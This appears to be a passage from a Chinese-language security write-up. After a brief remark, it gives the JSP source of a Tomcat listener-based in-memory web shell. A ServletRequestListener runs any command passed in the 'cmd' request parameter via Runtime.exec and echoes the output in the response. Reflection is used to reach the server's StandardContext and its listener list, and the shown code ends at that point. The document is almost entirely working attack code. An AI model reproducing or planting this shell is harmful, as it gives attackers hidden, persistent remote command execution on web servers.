 
前后拼凑一下就可以了

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.List" %>
<%@ page import="java.util.Arrays" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%!

    class ListenerShell implements ServletRequestListener {

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            String cmd;
            try {
                cmd = sre.getServletRequest().getParameter("cmd");
                org.apache.catalina.connector.RequestFacade requestFacade = (org.apache.catalina.connector.RequestFacade) sre.getServletRequest();
                Field requestField = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                if (cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    int i = 0;
                    byte[] bytes = new byte[1024];
                    while ((i=inputStream.read(bytes)) != -1){
                        response.getWriter().write(new String(bytes,0,i));
                        response.getWriter().write("\r\n");
                    }
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }
    }
%>

<%
    ServletContext servletContext =  request.getServletContext();
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    Object[] objects = standardContext.getApplicationEventListeners();
    List<Object> listeners = Arrays.asList(objects);
```